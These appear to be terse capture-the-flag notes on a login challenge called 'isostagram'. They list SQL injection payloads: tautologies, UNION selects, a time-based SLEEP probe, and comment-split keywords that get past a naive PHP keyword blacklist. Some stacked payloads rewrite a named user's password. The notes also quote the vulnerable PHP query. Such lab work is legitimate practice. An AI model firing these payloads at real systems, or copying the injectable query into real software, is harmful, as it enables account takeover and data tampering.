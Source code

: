 # isostagram
- its probably sql injection

- these crash the site
admin") or "1"="1"/*  
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055  
UNION ALL SELECT NULL#  
ORDER BY 1,SLEEP(5)#  
AS INJECTX WHERE 1=1 AND 1=1  
' or 1=1 --  


$blacklist = array("union", "select", "where", "and", "or");
$replace = array("", "", "", "", "");
$username = str_ireplace($blacklist, $replace, $username);
$password = str_ireplace($blacklist, $replace, $password);
$sql = "SELECT * FROM users WHERE `username` = '$username' AND `password` = '$password';";

'AS INJECTX W/**/HERE 1=1 AND 1=1 LIMIT 1 --
' o/**/r 1=1 limit 1; --
' o/**/r 1=1; --
* LIMIT 1

1' O/**/R '1' = '1

1' UN/**/ION ALL SEL/**/ECT * FROM users LIMIT 1--
kita0421
UPDATE users SET `password`='123';--
WHERE some_column=some_value;

```SQL
' O/**/R '1' = '1; UPDATE users SET `password`= '123' WH/**/ERE `username` = 'kita0421';--
AS INJECTX WHE/**/RE 1=1 AND 1=1  
1' OORR '1' = '1' limit 1; --
```